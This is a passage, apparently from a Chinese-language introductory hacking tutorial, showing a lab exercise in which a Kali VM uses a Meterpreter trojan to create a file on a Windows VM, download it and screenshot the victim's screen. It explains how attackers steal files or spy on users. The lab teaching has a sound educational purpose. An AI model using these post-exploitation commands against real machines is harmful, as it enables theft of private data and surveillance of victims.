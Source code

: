 1.  现在创建一个名为*hacked.txt*的文件，内容为“你已经被黑客攻击！”

    ```
    C:\Users\IEUser\*Do**cument**s**>* `echo "You've been hacked!" > hacked.txt`
    echo "You've been hacked!" > hacked.txt
    ```

1.  检查 Windows 虚拟机上的*Documents*文件夹。你应该能看到我们刚刚从 Kali 远程创建的*hacked.txt*文件。

1.  回到 Kali，退出 Windows shell，返回到 Meterpreter：

    ```
    C:\Users\IEUser\Documents> `exit`
    exit
    ```

1.  现在将文件从 Windows 下载到你的 Kali 虚拟机上：

    ```
    meterpreter > `download hacked.txt`
    [*] Downloading: hacked.txt -> hacked.txt
    [*] Downloaded 24.00 B of 24.00 B (100.0%): hacked.txt -> hacked.txt
    [*] download   : hacked.txt -> hacked.txt
    ```

1.  最后，使用以下命令查看文件内容，即我们的“你已经被黑客攻击！”消息。

    ```
    meterpreter > `cat hacked.txt`
    "You've been hacked!"
    ```

我们已经成功从受害者的计算机上下载了一个文件！在这个例子中，是我们在攻击虚拟机上（远程）创建的文件，但真正的攻击者可能会下载更重要的信息。任何 Windows 用户有权限访问的文件都可以被攻击者下载，当 Windows 用户运行 Meterpreter 木马时：客户名单、家庭照片、预算表格、税务表单、银行对账单、员工数据、病历记录、宝贵的知识产权或任何*敏感*文件，都可以在几次按键之间被窃取。

### 查看受害者计算机的屏幕

像 Meterpreter shell 这样的特洛伊木马通常被称为*后门*，因为它们使攻击者能够绕过所有其他安全措施（包括登录）以访问你的计算机。这就像是通过电影院的后门偷偷溜进去。当你在 Windows 虚拟机上点击 Meterpreter 木马文件时，你就打开了一个秘密门，使我们能够上传和下载文件。但事情变得更糟：你为我们的攻击虚拟机提供了一个后门，使我们能够查看你的计算机屏幕、记录你的按键，甚至开启你的摄像头！为了证明这一点，我们将尝试从 Kali 中查看 Windows 虚拟机的屏幕。

1.  在 Meterpreter shell 中输入 `screenshot -v true` 命令。使用此命令，攻击者可以发现受害者计算机用户看到的内容。

    ```
    meterpreter > **screenshot -v true**
    Screenshot saved to: /home/kali/Desktop/*kYpTvFbl*.jpeg 
    ```
